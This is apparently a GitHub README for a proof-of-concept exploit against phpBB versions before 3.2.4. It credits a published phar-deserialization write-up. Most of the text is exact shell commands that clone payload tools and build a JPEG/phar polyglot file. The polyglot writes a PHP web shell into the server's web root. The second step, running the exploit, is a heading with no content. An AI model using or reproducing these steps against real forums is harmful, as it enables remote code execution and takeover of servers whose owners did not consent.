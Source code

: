 # NiceForum

Exploiting phpBB < 3.2.4
Technique taken from the following article. Article also contains technical details regarding the exploitation.
I am NOT the author of the following article, I have only created the POC file to exploit the vulnerability.
https://blog.ripstech.com/2018/phpbb3-phar-deserialization-to-remote-code-execution/

Step 1  - Create the payload

Download the following repo
git clone https://github.com/s-n-t/phpggc.git
cd phpggc
git clone https://github.com/RealLinkers/NiceForum
chmod +x pharggc
./pharggc -j ./NiceForum/yourawesomepicture.jpg -o polyglotfiletoupload.jpg Guzzle/FW1 /var/www/html/shell.php ./NiceForum/shell.php

./pharggc -j <yourphoto.jpg> -o <polyglot.jpg> Guzzle/FW1 <your remote directory where the file will be written to> <your local shell file>
  
 
 Step 2 - Run exploit code


